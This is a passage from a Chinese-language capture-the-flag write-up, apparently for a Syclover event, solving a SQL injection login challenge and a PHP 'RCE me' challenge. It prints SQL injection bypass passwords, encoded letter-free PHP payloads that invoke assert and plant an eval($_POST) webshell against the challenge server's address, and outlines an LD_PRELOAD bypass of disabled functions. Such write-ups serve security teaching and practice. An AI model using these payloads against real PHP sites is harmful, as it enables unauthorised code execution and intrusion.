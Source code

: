 用户名输入“admin't”，发现可以注入。使用用户名“admin”，万能密码“admin'||'1”，或者用户名“secpulse'='”，密码“secpulse'='”，登录得到flag
```
Syc{sqL_inj3cti0n_1s_re4lly_fUn}
```

<br/>

### 6.RCE me

> 出题人：evoA
> I don't think U can system RCE, prove to me
> 地址:http://114.116.44.23:40001/

访问地址返回源码
```php
<?php
error_reporting(0);
if(iset($_GET['code'])){
        $code=$_GET['code'];
            if(strlen($code)>40){
                    die("This is too Long.");
                    }
            if(preg_match("/[A-Za-z0-9]+/",$code)){
                    die("NO.");
                    }
            @eval($code);
}
else{
        highlight_file(__FILE__);
}
highlight_file(__FILE);

// ?>
```
限制长度和字符的webshell，网上搜索“无字母webshell”，构造playload如下
```bash
# 预期解（php7.0）
# 测试，返回phpinfo()信息
http://114.116.44.23:40001/?code=(~%8F%97%8F%96%91%99%90)();

# 代码放在在User-Agent中执行
# ("assert")(("next")(("getallheaders")()));
http://114.116.44.23:40001/?code=(~%9E%8C%8C%9A%8D%8B)((~%91%9A%87%8B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));


# 非预期解
# 执行assert("phpinfo()")
http://114.116.44.23:40001/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=phpinfo()

# 直接链接shell
http://114.116.44.23:40001/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=eval($_POST['t1m']);


注意：从phpinfo的disable_functions可以看出pcntl_exec,system,exec,shell_exec,popen,proc_open,passthru等函数都被禁用了
```
上面两种都可以执行任意php代码了但是不能执行命令，可以使用php代码利用readdir等函数读到系统根目录下有flag和readflag文件，所以还是需要执行命令运行readflag文件，LD_PRELOAD模式绕过。利用fwrite等函数上传so文件和php脚本到/tmp目录下(网站目录没有写权限)，命令执行/readflag文件得到flag
